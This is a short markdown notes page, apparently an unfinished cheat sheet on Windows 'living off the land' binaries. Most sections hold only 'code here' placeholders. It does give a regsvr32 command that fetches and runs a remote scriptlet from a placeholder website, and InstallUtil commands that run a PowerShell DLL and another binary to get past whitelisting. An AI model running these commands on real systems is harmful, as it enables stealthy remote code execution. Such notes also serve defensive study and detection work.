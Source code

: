 # Native - Living off the land

## net.exe

Input:

    code here

Output:

    code here

## Regsvr32.exe

Input:

    code here

Output:

    code here

    regsvr32.exe /s /n /u /i:https://<website>/data scrobj.dll

## waitfor.exe

Input:

    code here

Output:

    code here

## wmic.exe


Input:

    code here

Output:

    code here

## Installutil.exe

Download the two binaries:

Input for pshell.dll:

    C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /logtoconsole=false /U pshell.dll

Input for rwxhunter.exe:

    C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /U rwxhunter.exe
